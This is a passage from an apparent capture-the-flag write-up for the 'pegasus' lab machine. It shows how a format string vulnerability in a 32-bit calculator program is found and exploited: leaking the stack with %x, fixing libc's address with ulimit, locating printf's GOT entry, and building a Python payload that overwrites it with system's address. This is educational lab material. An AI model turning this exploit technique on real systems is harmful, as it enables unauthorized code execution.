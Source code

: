 That seemed promising. I entered:

``` bash
Selection: 1

Enter first number: 5
Enter second number: %x
Error details: bff1039c
```

And we have our format string vulnerability! The basic idea now was to abuse it and overwrite a got pointer. I chose printf as the target and I wanted to overwrite it with the address of system. ASLR was enabled on pegasus, but because it is a 32 bit box, we can easily "fix" this with `ulimit -s unlimited`. This enlarges the stack and fixes the address of libc:

``` bash
mike@pegasus:~$ ulimit -s unlimited
mike@pegasus:~$ ldd my_first
	linux-gate.so.1 =>  (0x40022000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x4002a000)
	/lib/ld-linux.so.2 (0x40000000)
```

Finding the address of system within gdb was trivial. The got pointer address can be found using objdump:

``` bash
080483b0 <printf@plt>:
 80483b0:	ff 25 fc 9b 04 08    	jmp    *0x8049bfc
 80483b6:	68 00 00 00 00       	push   $0x0
 80483bb:	e9 e0 ff ff ff       	jmp    80483a0 <_init+0x2c>
```

So it's at 0x8049bfc. Now we needed to find the start of the format string on the stack. Recrudesce quickly identified it as argument number 8:

``` bash
Selection: 1

Enter first number: 5
Enter second number: AAAA%8$x
Error details: AAAA41414141
```

So I got working on an exploit. I quickly came up with this python script:

``` python
#!/usr/bin/python
import struct

def p(x):
  return struct.pack("<L", x)

payload = ""

# start calculator thingie
payload += "1\n5\n"

# overwrite first part of got pointer
payload += p(0x8049bfe)
payload += "%16386c%8$hn"

# overwrite second part of got pointer
payload += p(0x8049bfc)
payload += "%20566c%12$hn"

payload += "\n"

# exit program
```